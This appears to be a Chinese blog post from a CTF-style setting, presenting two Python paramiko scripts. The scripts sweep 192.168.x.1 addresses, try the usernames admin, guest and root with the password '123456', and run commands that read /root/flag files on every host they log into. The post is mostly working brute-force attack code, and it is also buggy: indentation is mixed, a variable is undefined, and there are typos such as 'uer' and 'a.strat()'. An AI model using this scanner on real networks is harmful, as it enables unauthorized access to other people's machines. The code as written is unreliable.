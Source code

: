 ```yaml
---
title: Python-SSH批量登陆并执行命令
date: 2018-05-04
tag: Python
layout: post
---
```



##直接上代码
 
``` python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import paramiko
from time import ctime
usernm = ["admin","guest","root"]
passwd = "123456"
def ssh():
	for i in range(1,254):
		for user in usernm:
			try:
			    host = "192.168.%s.1"%i
			    s=paramiko.SSHClient()
			    #创建ssh对象
			    s.load_system_host_keys()
			    s.set_missing_host_key_policy(paramiko.AutoAddPolicy())  
			    #自动加载主机密钥 yes\no
			    s.connect(hostname=host,username=user,password=passwd)
			    stdin,stdout,stderr = s.exec_command('cat /root/flagvalue.txt')
                print "192.168.%s.1  USER:[%s]  Time:[%s]"%(i,user,ctime())
			    dd = stdout.read()
                print dd
			    stdin,stdout,stderr = s.exec_command('exit')
			    s.close
                if dd != None:
	                dd = None
	                break
	       except:
		       pass
print ssh()

```

> 跨网段批量登陆时速度明显会变慢

下面时运行结果图：
![运行结果](https://img-blog.csdn.net/20180504092159976?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)


#多线程版本

```
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import paramiko
import threading
from time import ctime,sleep 
def ssh():
    usernm = ["admin","guest","root"]
	ip = "192.168.%s.1"%i
	for user in usernm:
                try:
					s=paramiko.SSHClient()	
					s.load_system_host_keys()
					s.set_missing_host_key_policy(paramiko.AutoAddPolicy())  
					s.connect(hostname=ip,username=user,password='123456')
					stdin,stdout,stderr = s.exec_command('cat /root/flag*')
                    print "192.168.%s.1  USER:[%s]  Time:[%s]"%(i,uer,ctime())
					dd = stdout.read()
                    print dd
                            
					stdin,stdout,stderr = s.exec_command('exit')
					s.close
                    if dd != None:
                       dd = None
                       break
                except:
                    pass

for i in range(100,200):
        a=threading.thread(target=ssh,arg=())
        sleep(0.1)
		a.strat()
```	


运行效果：
![多线程](https://img-blog.csdn.net/20180504165634332?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

